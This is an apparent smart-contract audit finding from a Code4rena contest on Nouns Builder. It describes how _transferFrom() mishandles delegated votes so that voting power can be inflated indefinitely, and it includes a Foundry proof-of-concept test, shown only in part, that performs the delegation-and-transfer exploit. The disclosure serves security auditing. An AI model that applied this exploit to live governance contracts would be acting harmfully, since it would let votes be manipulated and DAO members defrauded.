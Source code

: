 

***

## [[H-05] `_transferFrom()` can be used to indefinitely increase voting power](https://github.com/code-423n4/2022-09-nouns-builder-findings/issues/224)
_Submitted by Soosh, also found by Ch\_301, davidbrai, and PwnPatrol_

It is possible to indefinitely increase voting power by creating new accounts (addresses) and delegating. This will lead to unfair governance as a user can vote with more votes than actual.

### Explanation

The `_transferFrom()`  does not move delegates from the src's delegates to the destination's delegates, instead, it moves directly from src to dest. (see recommendations and Code POC for better understanding)

### Code POC

```solidity
// Insert this test case into Token.t.sol
// Run: forge test --match-contract Token -vv

import "forge-std/console.sol";
...
function testIncreaseVotePower() public {
        deployMock();

        address voter1;
        address voter2;
        uint256 voter1PK;
        uint256 voter2PK;

        // Voter with 1 NFT voting power
        voter1PK = 0xABC;
        voter1 = vm.addr(voter1PK);
        vm.deal(voter1, 1 ether);
        // Second account created by same voter
        voter2PK = 0xABD;
        voter2 = vm.addr(voter2PK);

		// Giving voter1 their 1 NFT
        vm.prank(founder);
        auction.unpause();
        vm.prank(voter1);
        auction.createBid{ value: 0.420 ether }(2);
        vm.warp(auctionParams.duration + 1 seconds);
        auction.settleCurrentAndCreateNewAuction();

        // Start Exploit
        console.log("Initial Votes");
        console.log("voter1: ", token.getVotes(voter1));
        console.log("voter2: ", token.getVotes(voter2));
        
        vm.prank(voter1);
        token.delegate(voter2);
        console.log("After Delegating Votes, voter1 -> delegate(voter2)");
        console.log("voter1: ", token.getVotes(voter1));
        console.log("voter2: ", token.getVotes(voter2));

        vm.prank(voter1);
        token.transferFrom(voter1, voter2, 2); 
        console.log("After Token transfer, voter1 -transferFrom()-> voter2");
        console.log("voter1 votes: ", token.getVotes(voter1));
```
